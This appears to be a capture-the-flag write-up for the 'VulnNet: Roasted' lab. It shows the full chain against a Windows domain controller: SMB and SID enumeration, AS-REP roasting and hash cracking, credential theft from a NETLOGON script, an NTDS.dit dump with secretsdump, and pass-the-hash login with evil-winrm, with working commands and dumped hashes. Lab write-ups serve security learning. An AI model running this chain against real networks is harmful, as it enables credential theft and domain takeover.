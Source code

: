 # VulnNet: Roasted

## Enumeration using nmap
<pre>nmap -sV -sC 10.10.227.72 -Pn

Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-21 20:26:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-21T20:26:08
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.99 seconds</pre>

- Port 139 + 445 is open

## Enum4Linux
<pre>enum4linux 10.10.227.72  
Domain Name:VULNNET-RST                                                                                                                           Domain Sid: S-1-5-21-1589833671-435344116-4136949213</pre>

## SMB Enumeration
- Port 139 + 445 is open
- Use `smbmap` to enumerate shares

<pre>smbmap -H 10.10.227.72 -u anonymous

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.227.72:445        Name: 10.10.227.72              Status: Guest session   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing</pre>

- Read access to the IPC$ share as `anonymous`
- We are able to list domain users using `lookupsid.py`

## lookupsid.py
- Brute forcing of Windows SIDs to identify users/groups on the target

https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers  

<pre>sudo lookupsid.py anonymous@10.10.227.72

[sudo] password for kali: 
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.10.227.72
[*] StringBinding ncacn_np:10.10.227.72[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)</pre>

We have discovered the following user accounts:  
Administrator  
Guest  
krbtgt  
WIN-2BO8M1OE1M1$  
enterprise-core-vn  
a-whitehat  
t-skid  
j-goldenhand  
j-leet  

### AS-REP Roasting
AS-REP Roasting occurs when a user account has the privilege "Does not require pre-authentication" in Active Directory.  

This means that the account does not need to provide identification before requesting a Kerberos ticket on the user account.

- Use GetNPUsers.py
- Query AS-REP Roastable accounts from Key Distribution Centre using usernames we discovered stored in users.txt  

<pre>GetNPUsers.py VULNNET-RST.local/ -no-pass -usersfile /home/kali/Documents/VulnNet_Roast/users.txt -dc-ip 10.10.227.72
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:8a24fbdc2cc549621c14d12a525046e4$74c507233131c5f1c3e8cb7ff409ebaac2abe9c3aa1b9bfb9e652e0bfe1a9580c731a68d652b4ffa2b27211a9a2d8db205fa5fac1690e1d3cf9752cff2e93e21e79ae056c22cafe1d06fa065a4009424e05a60605ed2de250565265ea6c60c4898963f5ab4454c5b5959a048fc56e4be25d6627f46d3bdec2d2aa49de9d3d0781f30d57855f6aa23eb733c59c5d824bb6b546e938a865964349d3aab414ed1a6f21dd68ceab6e7e81c75695bb5954dbfb901459b4ee839775f92c6f48a9fb92c78feb0a1e96b7dba8dda09d45b705aaadd4009d51bbb6a762eae59e8bc01147c84f9894e03bfbaafbf317170fbb249052be02aefa392
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set</pre>

Discovered a hash for user account `t-skid`  

Hash is displayed as `Kerberos 5, etype 23, AS-REP`  

- Crack the hash using Hashcat
<pre>hashcat -m 18200 /home/kali/Documents/VulnNet_Roast/TGT_ticket.txt /usr/share/wordlists/rockyou.txt</pre>

We now have cracked the password for user account `t-skid`

## Enumerate + Connect to SMB using t-skid account
- Enumerate the shares we can access
<pre>smbmap -H 10.10.227.72 -u t-skid -p '*****'</pre>

- As the Anonymous account earlier, we couldn't access NETLOGON
- Connect to NETLOGON share

<pre>smbclient \\\\10.10.227.72\\NETLOGON -U t-skid
Password for [WORKGROUP\t-skid]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 16 19:15:49 2021
  ..                                  D        0  Tue Mar 16 19:15:49 2021
  ResetPassword.vbs                   A     2821  Tue Mar 16 19:18:14 2021

smb: \> get ResetPassword.vbs
getting file \ResetPassword.vbs of size 2821 as ResetPassword.vbs (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)</pre>

- Discovered credentials in the .vbs script

strUserNTName = "a-whitehat"  
strPassword = "*********"

## Dump NTDS.dit
- Check if user `a-whitehat` has the privilege to dump hashes 

<pre>secretsdump.py vulnnet-rst/a-whitehat:'bNdKVkjv3RR9ht'@10.10.227.72

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7633f01273fc92450b429d6067d1ca32:::
vulnnet-rst.local\enterprise-core-vn:1104:aad3b435b51404eeaad3b435b51404ee:8752ed9e26e6823754dce673de76ddaf:::
vulnnet-rst.local\a-whitehat:1105:aad3b435b51404eeaad3b435b51404ee:1bd408897141aa076d62e9bfc1a5956b:::
vulnnet-rst.local\t-skid:1109:aad3b435b51404eeaad3b435b51404ee:49840e8a32937578f8c55fdca55ac60b:::
vulnnet-rst.local\j-goldenhand:1110:aad3b435b51404eeaad3b435b51404ee:1b1565ec2b57b756b912b5dc36bc272a:::
vulnnet-rst.local\j-leet:1111:aad3b435b51404eeaad3b435b51404ee:605e5542d42ea181adeca1471027e022:::
</pre>

## Evil-WinRM
- Ultimate shell for hacking/pentesting

<pre>evil-winrm -i 10.10.227.72 -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d</pre>
